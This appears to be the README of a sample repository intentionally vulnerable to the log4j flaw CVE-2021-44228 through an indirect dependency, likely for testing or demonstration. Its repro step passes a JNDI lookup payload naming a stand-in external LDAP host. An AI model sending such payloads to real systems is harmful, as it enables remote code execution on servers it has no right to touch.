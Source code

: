 # sample-vulnerable-log4j-indirect-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) because it indirectly depends on a vulnerable version of log4j.

## Repro of vulnerability

``` shell
gradle run --args='${jndi:ldap://some.host.example.com/}'
```